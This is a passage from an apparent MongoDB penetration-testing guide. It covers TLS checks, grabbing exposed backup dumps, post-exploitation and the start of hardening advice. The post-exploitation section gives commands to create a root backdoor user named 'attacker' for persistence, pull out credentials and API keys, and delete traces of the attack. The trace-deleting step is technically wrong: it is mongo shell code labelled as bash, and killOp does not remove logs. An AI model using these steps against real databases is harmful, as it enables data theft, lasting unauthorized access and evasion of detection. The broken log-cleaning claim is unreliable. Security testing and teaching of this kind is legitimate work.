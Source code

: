 #### **8. SSL/TLS Encryption**
- Verify if traffic between client and MongoDB is encrypted:
  ```bash
  openssl s_client -connect <target-ip>:27017
  ```
  If SSL/TLS is not configured, sensitive data may be exposed during transit.

#### **9. Backup Files**
- Look for exposed backups:
  ```bash
  curl http://<target-ip>/backup/mongodb.dump
  ```

---

### **Post-Exploitation**
1. **Extract Sensitive Data**:
   - Look for user credentials, API keys, and sensitive business data.
   - Export databases or collections using `mongoexport`.

2. **Establish Persistence**:
   - Create a new admin user:
     ```javascript
     db.createUser({
       user: "attacker",
       pwd: "password123",
       roles: ["root"]
     });
     ```

3. **Lateral Movement**:
   - Use compromised MongoDB as a foothold to access other parts of the network.

4. **Clean Logs**:
   - If possible, delete traces of the attack:
     ```bash
     db.currentOp().killOp(<opId>);
     ```

---

### **Defensive Measures**
1. **Enable Authentication**: Always require authentication for access.
   - Edit the MongoDB configuration file (`mongod.conf`) and set:
     ```yaml
     security:
       authorization: "enabled"
     ```
   - Restart MongoDB:
     ```bash
     sudo systemctl restart mongod
     ```
